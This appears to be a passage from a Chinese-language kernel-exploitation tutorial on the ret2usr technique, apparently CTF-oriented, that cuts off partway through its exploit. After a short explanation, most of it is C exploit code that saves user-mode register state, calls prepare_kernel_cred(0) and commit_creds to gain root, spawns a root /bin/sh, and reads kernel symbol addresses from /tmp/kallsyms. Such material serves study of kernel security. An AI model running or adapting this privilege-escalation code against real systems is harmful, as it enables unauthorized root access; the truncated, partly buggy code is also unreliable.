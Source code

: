 ## ret2usr

### 简介

利用的是内核态位于ring 0，可以执行用户态的函数，我们不必自己构造调用链，而可以直接在用户态构造好我们需要的函数，在内核rop的时候直接调用即可，当然这些函数用户态是没有的，我们还是得先泄露出来。exp编写如下：

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <sys/ioctl.h>

size_t user_cs,user_ss,user_rflags,user_sp;

size_t commit_creds=0,prepare_kernel_cred=0;

size_t vmlinux_base;

void save_status()
{
  __asm__(
    "mov user_cs,cs;"
    "mov user_ss,ss;"
    "mov user_sp,rsp;"
    "pushf;"
    "pop user_rflags;"
  );
  puts("[*] status has been saved.");

}

void BeRoot()
{
    char* (*fun1)(int) = prepare_kernel_cred;
    void  (*fun2)(char*) = commit_creds;
    (*fun2)((*fun1)(0));
}

void GetRootShell()
{
    if(!getuid()){
        system("/bin/sh");
    }
    else{
        puts("[*] get root shell error!");
    }
}

size_t FindVmlinuxBase()
{
    int fd = fopen("/tmp/kallsyms","r");
    if(fd == -1){
        puts("[*]open symbol file failed.");
    }
    char buf[0x30] = {0};
    while(fgets(buf,0x30,fd)){
        if(commit_creds && prepare_kernel_cred)
            return 0;
```